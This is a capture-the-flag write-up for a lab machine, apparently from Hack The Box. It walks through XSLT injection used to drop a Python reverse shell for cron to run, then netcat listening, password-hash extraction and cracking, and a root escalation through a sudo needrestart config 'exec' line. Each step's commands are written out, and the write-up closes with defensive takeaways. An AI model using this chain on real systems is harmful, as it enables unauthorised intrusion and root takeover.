01
Network Reconnaissance
Start with a full port scan to know exactly what's exposed before touching any web surface.
nmap -sS -sV -p- <TARGET_IP>
terminalnmap results

Two open ports — SSH on 22, HTTP on 80. Web application is the only attack surface.
22
SSH
potential creds lateral move
80
HTTP
primary attack surface
Assessment: Minimal surface. Everything goes through the web app on port 80. Start there.
02
Web Application Analysis
After registering an account, the application reveals its core feature: an XML/XSLT transformation service that converts uploaded XML and XSLT files into formatted output.
browserconverter interface

The converter accepts XML and XSLT file uploads. XSLT processing without proper sanitization is a known RCE vector.
browsersource code download

Source code is publicly downloadable. Flask app. This dramatically speeds up identifying attack vectors.
Key finding: Source code access means we can read the exact processing logic before crafting any payload. Always download if it's available.
03
Source Code Review
editorcron job + user context

Two critical findings in the source: app runs as www-data, and a cron job automatically executes all .py files in the working directory.
Reading the Flask source reveals the full picture:
A
www-data context. The web process runs as www-data — all file writes happen as this user.
B
Cron executes .py files. A cron job automatically runs every Python file in the current directory. If we can write a .py file there, it gets executed automatically.
C
XML input is sanitized. The XML parser has proper validation — that input is not the vector.
D
XSLT processing is not sanitized. The XSLT input is passed to the processor without restrictions — XSLT injection is in play.
Attack path: Craft a malicious XSLT that writes a Python reverse shell to the working directory → cron picks it up → shell as www-data.
04
XSLT Injection → File Write
XSLT is a full programming language. When the processor isn't sandboxed, it can access the filesystem, make network requests, and execute system commands. Payloads from PayloadsAllTheThings cover the major processor variants.
Step 1 — Legitimate XML (passes validation)
<?xml version="1.0" encoding="UTF-8"?>
<root>
<data>test</data>
</root>
browserstep 1 — xml upload

Clean XML passes server-side validation. Now the XSLT payload does the actual work.
Step 2 — Malicious XSLT (writes Python reverse shell)
editorstep 2 — xslt payload

XSLT uses the processor's file write capability to drop a Python reverse shell in the working directory where the cron job will pick it up.
Step 3 — Cron executes the dropped file
nc -lvnp 4444
# Waiting for cron to execute the dropped .py file...
Connection received from TARGET_IP
www-data@conversor:~$
Initial access: www-data shell obtained via XSLT injection + cron job abuse. No direct command execution needed — the cron did the work.
05
Post-Exploitation Enumeration
User enumeration
cat /etc/passwd
# Identified user: fismathack
Database discovery
terminalsqlite database found

SQLite database found on the filesystem. Users table contains a password hash for fismathack.
find / -name "*.db" 2>/dev/null
sqlite3 database.db
sqlite> SELECT * FROM users;
# Hash for fismathack exposed
06
Hash Cracking → SSH Access
crackstation.nethash cracked

Hash cracked via Crackstation. Password in plaintext — classic weak credential storage.
terminalssh login + user.txt

Cracked password works on SSH directly. user.txt captured.
ssh fismathack@TARGET_IP
# Password: [cracked]
cat user.txt
HTB{...}
Password reuse: DB hash → SSH password. Users reuse credentials across services. Always test cracked hashes against every accessible service.
07
Sudo Enumeration
terminalsudo -l

fismathack can run needrestart as root with NOPASSWD. needrestart accepts a custom config file via -c — this is the escalation path.
sudo -l
# User fismathack may run:
(root) NOPASSWD: /usr/sbin/needrestart
Finding: needrestart accepts a custom config file via -c. When that config runs as root, an exec directive in it becomes arbitrary code execution as root.
08
Privesc via needrestart — Config Injection
needrestart parses its configuration file and supports an exec directive. When run as root via sudo, it parses the config as root — making any exec directive run as root without further validation.
Create malicious config
echo 'exec "/bin/sh","-p";' > /tmp/con.conf
# -p preserves effective UID — shell won't drop to user level
Trigger via sudo
sudo /usr/sbin/needrestart -c /tmp/con.conf
terminalneedrestart → root shell

needrestart parses the config as root, exec directive fires, root shell obtained. id confirms uid=0(root).
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
HTB{...}
Chain complete. Nmap → XSLT injection → cron RCE → SQLite creds → hash crack → SSH → sudo needrestart config injection → root. ✓ user.txt ✓ root.txt
09
Key Takeaways
01
Sanitize both XML and XSLT. The XML input was properly validated. The XSLT input wasn't. Both need sanitization — XSLT is the more dangerous of the two, as it's a full programming language.
02
Download and read the source code if it's available. Access to the Flask source immediately revealed the cron job, the user context, and which input was vulnerable. Don't skip this step.
03
Cron jobs that execute files in writable directories are dangerous. If a cron runs as a privileged user and touches a directory you can write to, that's code execution. Always check cron configurations post-exploitation.
04
Always test cracked hashes against SSH and other services. The DB hash worked directly on SSH. Users reuse passwords. One cracked hash can be the pivot to a full user shell.
05
sudo rules with config file flags are high-risk. needrestart's -c option accepting user-supplied configs defeats the entire purpose of the sudo restriction. Any utility that parses attacker-controlled config as root is essentially sudo shell.